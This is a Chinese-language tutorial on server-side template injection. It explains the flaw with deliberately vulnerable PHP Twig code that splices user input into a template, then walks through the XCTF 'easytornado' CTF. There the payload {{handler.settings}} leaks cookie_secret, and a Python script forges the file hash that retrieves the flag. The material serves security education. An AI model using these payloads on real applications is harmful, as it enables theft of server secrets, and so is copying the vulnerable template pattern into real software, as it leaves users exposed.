 # 服务器模板注入攻击(SSTI)

## 模板注入原理

模板注入涉及的是服务端Web应用使用模板引擎渲染用户请求的过程，这里我们使用 PHP 模版引擎 Twig 作为例子来说明模板注入产生的原理。考虑下面这段代码：

```
<?php
require_once dirname(__FILE__).'/../lib/Twig/Autoloader.php';
Twig_Autoloader::register(true);
$twig = new Twig_Environment(new Twig_Loader_String());
$output = $twig->render("Hello {{name}}", array("name" => $_GET["name"]));  // 将用户输入作为模版变量的值
echo $output;
```

使用 Twig 模版引擎渲染页面，其中模版含有 {{name}}  变量，其模版变量值来自于 GET 请求参数 $_GET["name"] 。显然这段代码并没有什么问题，即使你想通过 name  参数传递一段 JavaScript 代码给服务端进行渲染，也许你会认为这里可以进行 XSS，但是由于模版引擎一般都默认对渲染的变量值进行编码和转义，所以并不会造成跨站脚本攻击：

![image-20200620232240515](SSTI.assets/image-20200620232240515.png)

但是，如果渲染的模版内容受到用户的控制，情况就不一样了。修改代码为：

```php
<?php
require_once dirname(__FILE__).'/../lib/Twig/Autoloader.php';
Twig_Autoloader::register(true);
$twig = new Twig_Environment(new Twig_Loader_String());
$output = $twig->render("Hello {$_GET['name']}");  // 将用户输入作为模版内容的一部分
echo $output;
```

上面这段代码在构建模版时，拼接了用户输入作为模板的内容，现在如果再向服务端直接传递 JavaScript 代码，用户输入会原样输出，测试结果显而易见：

![image-20200620232305190](SSTI.assets/image-20200620232305190.png)

对比上面两种情况，简单的说服务端模板注入的形成终究还是因为服务端相信了用户的输出而造成的（Web安全真谛：永远不要相信用户的输入！）。当然了，第二种情况下，攻击者不仅仅能插入 JavaScript 脚本，还能针对模板框架进行进一步的攻击，此部分只说明原理，在后面会对攻击利用进行详细说明和演示。

## 模板注入检测

上面已经讲明了模板注入的形成原来，现在就来谈谈对其进行检测和扫描的方法。如果服务端将用户的输入作为了模板的一部分，那么在页面渲染时也必定会将用户输入的内容进行模版编译和解析最后输出。

借用本文第二部分所用到的代码：

```
<?php
require_once dirname(__FILE__).'/../lib/Twig/Autoloader.php';
Twig_Autoloader::register(true);
$twig = new Twig_Environment(new Twig_Loader_String());
$output = $twig->render("Hello {$_GET['name']}");  // 将用户输入作为模版内容的一部分
echo $output;
```

在 Twig 模板引擎里，{{ var }}  除了可以输出传递的变量以外，还能执行一些基本的表达式然后将其结果作为该模板变量的值，例如这里用户输入 name={{2*10}} ，则在服务端拼接的模版内容为：

```
Hello {{2*10}}
```

Twig 模板引擎在编译模板的过程中会计算 {{2*10}}  中的表达式 2*10 ，会将其返回值 20  作为模板变量的值输出，如下图：

![image-20200620232605277](SSTI.assets/image-20200620232605277.png)

## 靶场测试

### 1. 环境

`攻防世界`中`easytornado`：

https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5422&page=1

### 2.说明

这里主要是利用Python的tornado框架中存在服务器模板注入攻击(SSTI)来获取flag

### 3.解题流程

**初始访问：**

![image-20200620233032904](SSTI.assets/image-20200620233032904.png)

依次点开三个文件

![image-20200620233504057](SSTI.assets/image-20200620233504057.png)

`俩个信息:`flag在fllllllllllllag文件里；可以通过http://220.249.52.133:34761/file?filename=/fllllllllllllag&filehash=xxx  获取到flag 信息

![image-20200620233516119](SSTI.assets/image-20200620233516119.png)

`一个信息：`rrender是python中的一个渲染函数，渲染变量到模板中，所以这里估计是服务器模块注入攻击（SSTI）

![image-20200620233526770](SSTI.assets/image-20200620233526770.png)

`一个信息`：filename是fllllllllllllag，所以需要找到cookie_secret的值，就可以计算出`md5(cookie_secret+md5(filename))`，也就是filehash的值，就可以找打flag



**找cookie_secret:：**

测试后发现还有一个error界面，url为：

http://220.249.52.133:34761/error?msg=error

![image-20200620234113511](SSTI.assets/image-20200620234113511.png)

所以，大概可以确定之类存在`服务器端模板注入攻击（SSTI)`
通过查阅文档发现cookie_secret在Application对象settings属性中，还发现self.application.settings有一个别名

```
equestHandler.settings
An alias for self.application.settings.
```

handler指向的处理当前这个页面的RequestHandler对象，
RequestHandler.settings指向self.application.settings，
因此handler.settings指向RequestHandler.application.settings。

构造payload获取cookie_secret

```
http://220.249.52.133:34761/error?msg={{handler.settings}}
```

![image-20200620234327989](SSTI.assets/image-20200620234327989.png)

获取到`cookie_secret`的值



**获取filehash值**

这里通过编写Python脚本直接获取：

```
import hashlib


def md5(s):
    md5 = hashlib.md5()
    md5.update(s)
    return md5.hexdigest()


def filehash():
    filename = "/fllllllllllllag"
    cookie_secret = "3a5c32f3-c030-4ba5-9eb6-f70361cdb6ae"
    md5_1 = md5(filename.encode())
    print(md5((cookie_secret+md5_1).encode()))


if __name__ == "__main__":
    filehash()

```

结果为：

![image-20200620234721253](SSTI.assets/image-20200620234721253.png)



**最终：**

通过`filename`和`filehash`构造url来获取flag

```
http://220.249.52.133:34761/file?filename=/fllllllllllllag&filehash=7a1636d7874c5a65318a9b9253f4eb1f
```

![image-20200620234839355](SSTI.assets/image-20200620234839355.png)

## 参考文章

1. [服务器模板注入攻击(SSTI)](https://www.freebuf.com/vuls/83999.html)
2. [BUUCT-WEB-easy_tornado](https://blog.csdn.net/weixin_44677409/article/details/94410580)